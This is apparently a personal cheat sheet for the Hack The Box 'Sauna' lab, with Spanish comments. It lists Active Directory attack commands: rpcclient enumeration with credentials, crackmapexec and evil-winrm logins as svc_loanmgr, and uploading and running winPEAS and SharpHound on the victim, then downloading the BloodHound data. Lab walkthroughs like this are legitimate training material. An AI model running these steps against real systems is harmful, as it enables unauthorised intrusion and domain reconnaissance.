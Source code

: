 ## AD LOCAL ENUM
```bash
whoami /priv
whoami /all
net localgroup "Remote Management Users"
net user
```

## AD WINPEAS ENUM
```bash
# MÁQUINA ATACANTE
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe
mv ~/Downloads/winPEASx64.exe winPEAS.exe

# MÁQUINA VÍCTIMA
cd C:\Windows\Temp
mkdir recon
cd recon
upload ~/Desktop/bast1ant1c/HTB/Sauna/exploit/winPEAS.exe
.\winPEAS.exe
```

## RCPCLIENT ENUM (WITH CREDS)
```bash
rpcclient -U 'fsmith%<PASSWORD>' <IP> -c enumdomusers
rpcclient -U 'fsmith%<PASSWORD>' <IP> -c enumdomgroups
rpcclient -U 'fsmith%<PASSWORD>' <IP> -c queryfroupmem 0x200
rpcclient -U 'fsmith%<PASSWORD>' <IP> -c queryuser 0x1f4
rpcclient -U 'fsmith%<PASSWORD>' <IP> -c querydispinfo
```

## GRANTED ACCESS SVC_LOANMGR USER
```bash
crackmapexec smb <IP> -u 'svc_loanmgr' -p '<PASSWORD>'
crackmapexec winrm <IP> -u 'svc_loanmgr' -p '<PASSWORD>'
evil-winrm -i <IP> -u 'svc_loanmgr' -p '<PASSWORD>'
whoami
```

## BLOODHOUND INSTALL
```bash
apt install neo4j bloodhound
update-alternatives --config java
# SELECCIONAR JAVA-11
```

## BLOODHOUND ENUM
```bash
# MÁQUINA ATACANTE
wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1

# MÁQUINA VÍCTIMA
cd C:\Windows\Temp
mkdir privs
cd privs
upload ~/Desktop/bast1ant1c/HTB/Sauna/content/SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
download C:\Windows\Temp\privs\20220718205025_BloodHound.zip bloodhound.zip

# BLOODHOUND
neo4j console &>/dev/null & disown
```